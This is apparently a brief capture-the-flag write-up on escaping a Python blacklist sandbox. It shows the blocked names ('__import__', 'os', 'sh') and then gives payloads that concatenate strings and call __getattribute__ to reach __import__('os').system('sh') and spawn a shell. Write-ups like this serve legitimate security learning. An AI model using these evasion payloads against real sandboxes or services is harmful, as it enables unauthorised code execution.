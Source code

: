 # Explanation
ok, so at the first, we had short blacklist, and that was the main function of the __RoadtoShell__ payload


```
blacklist = ['__import__', '__system__', 'sh', 'os']
```

So, at the first, lets focus on the string things, __os__ and __sh__

If u remember, in python, we can just plus the string from

```
__import__('os').system('sh')
```
to
```
__import__('o'+'s').system('s'+'h') 
```

Second, lets fix the **__import__** and **__system__**

so we can change the function using strings, using the builtins function

```
__getattribute__()
```

u can see the image below, its just the same

<img src="img/blacklistmodel1-1.png"> 